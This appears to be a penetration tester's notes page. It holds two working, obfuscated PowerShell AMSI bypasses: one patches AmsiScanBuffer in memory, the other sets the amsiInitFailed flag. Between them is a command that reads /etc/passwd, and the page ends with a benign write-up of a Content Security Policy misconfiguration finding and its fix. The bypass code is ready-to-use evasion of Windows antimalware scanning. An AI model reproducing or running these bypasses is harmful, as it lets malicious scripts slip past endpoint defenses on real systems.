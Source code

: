 # AMSI-Bypass
$ZQCUW = @" 
using System;
using System.Runtime.InteropServices; 
public class ZQCUW { 
	[DllImport("kernel32")] 
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 
	[DllImport("kernel32")] 
	public static extern IntPtr LoadLibrary(string name); 
	[DllImport("kernel32")] 
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 

"@ 

Add-Type $ZQCUW 

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML, $PURX, $YNWL, $RTGX, + $XVON, + $WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

==========================================================================
grep "^root:" /etc/passwd | cut -f4 -d: 

S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})


=============================================================

### Misconfigured CSP

**Description**: The Content Security Policy (CSP) is misconfigured, with only `frame-ancestors 'self'` set, while critical directives like `object-src` and `script-src` are missing. This incomplete configuration leaves the application vulnerable to various attacks, such as cross-site scripting (XSS) and plugin-based attacks.

**Impact**: Without `script-src`, the application is exposed to the risk of executing malicious scripts, leading to XSS attacks. The absence of `object-src` means potentially dangerous plugins and embedded content can be loaded, increasing the risk of malicious code execution and data breaches.

**Remediation**: Update the CSP to include comprehensive directives. Set `script-src 'self'` to restrict script sources and `object-src 'none'` to block all plugin content. Regularly review and update the CSP to address new threats and vulnerabilities.

**Reference**:
- [OWASP Content Security Policy](https://owasp.org/www-project-secure-headers/#content-security-policy)
- [Mozilla Developer Network - CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

**One-liner recommendation**: "It is recommended to fully configure CSP by setting `script-src` and `object-src` directives to enhance security."

Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random123' https://trusted-scripts.example.com; object-src 'none'; frame-ancestors 'self';
